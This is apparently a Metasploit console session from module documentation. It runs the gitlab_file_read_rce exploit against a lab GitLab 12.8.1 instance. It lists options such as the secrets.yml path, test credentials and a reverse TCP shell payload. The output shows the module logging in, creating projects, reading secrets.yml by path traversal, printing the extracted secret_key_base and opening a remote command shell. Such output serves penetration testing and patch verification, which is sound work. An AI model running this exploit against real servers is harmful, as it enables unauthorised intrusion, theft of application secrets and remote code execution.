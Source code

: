 ```
msf exploit(multi/http/gitlab_file_read_rce) > options

Module options (exploit/multi/http/gitlab_file_read_rce):

   Name          Current Setting                             Required  Description
   ----          ---------------                             --------  -----------
   DEPTH         15                                          yes       Define the max traversal depth
   PASSWORD      password123                                 yes       The password for the specified username
   Proxies                                                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS        127.0.0.1                                   yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT         80                                          yes       The target port (TCP)
   SECRETS_PATH  /opt/gitlab/embedded/service/gitlab-rails/  yes       The path to the secrets.yml file
                 config/secrets.yml
   SECRET_KEY_BASE                                           no        The known secret_key_base from the secrets.yml - this skips the arbitrary file read if present
   SSL           false                                       no        Negotiate SSL/TLS for outgoing connections
   TARGETURI     /users/sign_in                              yes       The path to the vulnerable application
   USERNAME      test@example.com                            yes       The username to authenticate as
   VHOST         gitlab.example.com                          no        The virtual host name to use in requests


Payload options (generic/shell_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  docker0          yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic


msf exploit(multi/http/gitlab_file_read_rce) > rerun

[*] Started reverse TCP handler on 172.17.0.1:4444
[*] Executing automatic check (disable AutoCheck to override)
[+] The target appears to be vulnerable. GitLab 12.8.1 is a vulnerable version.
[*] Logged in to user test
[*] Created project /test/pKUuduxC
[*] Created project /test/5W350yP1
[*] created issue /test/pKUuduxC/issues/1
[*] Executing arbitrary file load
[+] File saved as: '/home/kali/.msf4/loot/20201121213408_default_127.0.0.1_gitlab.secrets_675303.txt'
[+] Extracted secret_key_base e41f3a01d22ff6a694be33bf2e5d40af89b788088938203c3478818da595731ada41c2b9c3d3caff79de7647a0c287bb68f6ca1912904a766237543013c46594
[*] Attempting to delete project /test/pKUuduxC
[*] Command shell session 23 opened (172.17.0.1:4444 -> 172.17.0.2:34058) at 2020-11-21 21:34:08 -0500
[*] Deleted project /test/pKUuduxC
```